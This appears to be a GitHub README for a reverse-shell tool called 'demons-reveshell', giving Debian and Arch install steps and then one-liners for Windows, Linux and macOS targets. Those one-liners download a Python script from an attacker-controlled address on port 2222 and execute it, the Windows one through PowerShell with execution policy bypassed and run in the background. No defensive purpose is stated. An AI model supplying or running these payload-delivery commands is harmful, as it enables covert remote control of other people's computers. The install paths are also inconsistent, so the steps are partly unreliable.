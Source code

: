DEBIAN
$ sudo apt-get install python3 python3-pip git
$ cd /opt/
$ sudo git clone https://github.com/Demonjokerwarrior/demons-reveshell
$ cd /demons-reveshell
$ pip3 install -r requirements.txt
$ sudo chmod +x demon
$ sudo cp demon /usr/bin/



 ARCH
 $ sudo pacman -S python python-pip git
$ cd /opt/
$ sudo git clone https://github.com/Demonjokerwarrior/demons-reveshell
$ cd demonReverseShell/
$ pip3 install -r requirements.txt
$ sudo chmod +x demon
$ sudo cp demon /usr/bin/


WINDOWS

cmd.exe /k powershell -NoProfile -ExecutionPolicy Bypass -Command "$url = 'http://{yourip addr}:2222/{yourfilename}'; $destination = [System.IO.Path]::Combine($env:USERPROFILE, 'Documents', {'yourfilename}.py'); Invoke-WebRequest -Uri $url -OutFile $destination; Start-Process -FilePath 'pythonw.exe' -ArgumentList $destination -NoNewWindow"



LINUX
wget -O "$HOME/Documents/script.py" "http://192.168.1.10:2222/script.py" && python3 "$HOME/Documents/script.py"


MAC OS
curl -o "$HOME/Documents/script.py" "http://192.168.1.10:2222/script.py" && python3 "$HOME/Documents/script.py"


ANDRIOD,IOS;

you need pyroid app and use to compile the code and save it and run it 






